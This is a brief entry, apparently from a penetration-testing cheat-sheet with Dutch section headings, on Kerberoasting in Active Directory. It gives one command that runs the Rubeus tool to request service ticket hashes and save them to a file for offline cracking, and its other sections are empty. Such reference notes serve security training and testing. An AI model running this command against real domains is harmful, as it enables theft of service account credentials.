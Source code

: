 # 23. AD authentication — Entry 22

## Categorie

Kerberoasting

## Commando

```
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

## Omschrijving

```
Using Rubeus to perform a Kerberoast attack
```

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_

